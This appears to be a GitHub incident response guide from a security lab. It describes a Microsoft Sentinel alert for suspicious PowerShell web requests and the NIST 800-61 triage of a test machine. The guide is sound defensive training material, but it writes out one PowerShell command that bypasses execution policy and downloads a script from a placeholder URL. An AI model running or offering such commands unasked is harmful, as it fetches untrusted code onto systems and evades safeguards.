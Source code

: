 # Incident Response Guide: PowerShell Suspicious Web Request

## 1. Detection Strategy

Created a Sentinel Alert to identify usage of `Invoke-WebRequest` via PowerShell targeting known untrusted sources.
![image](https://github.com/user-attachments/assets/5c75b1ea-99ee-4c39-841d-c57266c15c8b)
![image](https://github.com/user-attachments/assets/0c1f29a3-2759-4d3e-aa2c-a3114ac486ae)


## 2. Incident Triggering
![image](https://github.com/user-attachments/assets/419f7558-1913-434e-a82d-21dd35a39c1b)

The following PowerShell commands were executed on `windows-target-1`:

```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri [script URL] -OutFile C:\programdata\[filename].ps1
```

## 3. Investigation Steps (NIST 800-61)
![image](https://github.com/user-attachments/assets/569eb120-946c-42ca-bc3a-d6b0624b6005)
![image](https://github.com/user-attachments/assets/eede6c41-18e1-47bd-bad9-8ec050bef19c)

- **Identification:** Alert from Microsoft Defender for Endpoint.
- **Analysis:** MDE and Sentinel queries confirmed script download and execution.
- **Validation:** Manual review and KQL queries cross-referenced script execution.

## 4. Containment, Eradication & Recovery
![image](https://github.com/user-attachments/assets/ade8a36d-2ec1-4ffa-bed7-1c503dc36dc5)

- Isolated `windows-target-1` via MDE.
- Performed malware scans (clean).
- System removed from isolation after confirmation.

## 5. Post-Incident Activities

- User awareness training conducted.
- Security policy improved (PowerShell restrictions deployed).
- Awareness training platform upgraded.

## 6. Cleanup Procedures

- Removed downloaded scripts.
- Reviewed related user/system activity logs.
- Refreshed endpoint policy baselines.
